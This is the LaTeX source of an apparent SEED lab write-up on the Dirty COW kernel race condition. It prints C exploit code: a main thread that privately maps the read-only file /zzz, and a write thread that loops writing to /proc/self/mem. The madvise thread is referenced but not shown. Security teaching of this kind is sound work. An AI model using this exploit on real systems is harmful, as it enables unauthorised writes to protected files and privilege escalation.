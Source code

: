 \documentclass[14pt]{extarticle}
\begin{document}
\subsection{setting up Memory Mapping Thread}
I'll need to download the cow\_attack.c from the seed website. This program is not that complex and can be broken down into three threads: the Main thread, the write thread, and the madvise thread.
The first thread opens the /zzz file and maps it to memory, and then it find where the 2's are in the text (or whatever pattern I choose to find). Once this is found, it spawns two new threads to start the race condition.

This code is explained with comments here\cite{seed-dirtycow}:
\begin{lstlisting}[language=sh]
#include <sys/mman.h>
#include <fcntl.h>
#include <pthread.h>
#include <sys/stat.h>
#include <string.h>
void *map;
void *writeThread(void *arg);
void *madviseThread(void *arg);
int main(int argc, char *argv[])
{
  pthread_t pth1,pth2;
  struct stat st;
  int file_size;
// Open the target file in the read-only mode.
  int f=open("/zzz", O_RDONLY);
// Map the file to COW memory using MAP_PRIVATE.
  fstat(f, &st);
  file_size = st.st_size;
  map=mmap(NULL, file_size, PROT_READ, MAP_PRIVATE, f, 0);
// Find the position of the target area
  char *position = strstr(map, "222");
// We have to do the attack using two threads.
  pthread_create(&pth1, NULL, madviseThread, (void  *)file_size);
  pthread_create(&pth2, NULL, writeThread, position);
// Wait for the threads to finish.
  pthread_join(pth1, NULL);
  pthread_join(pth2, NULL);
  return 0;
}
\end{lstlisting}

\subsection{Setup the write thread}
The writing thread will attempt to replace the 2's in the memory with *'s . Since the memory type is COW, this thread will not be able to modify the underlying file, and will only be able to make a copy of the mapped memory.\cite{seed-dirtycow}
\begin{lstlisting}[language=sh]
void *writeThread(void *arg)
{
	// The characters to replace place in the file
  char *content= "***";
	// the offset that the new text should go
  off_t offset = (off_t) arg;
	// opening the file for read write permissions
  int f=open("/proc/self/mem", O_RDWR);
  while(1) {
    // Move the file pointer to the corresponding position.
    lseek(f, offset, SEEK_SET);
    // Write to the memory.
    write(f, content, strlen(content));
  }
}
\end{lstlisting}
\end{document}
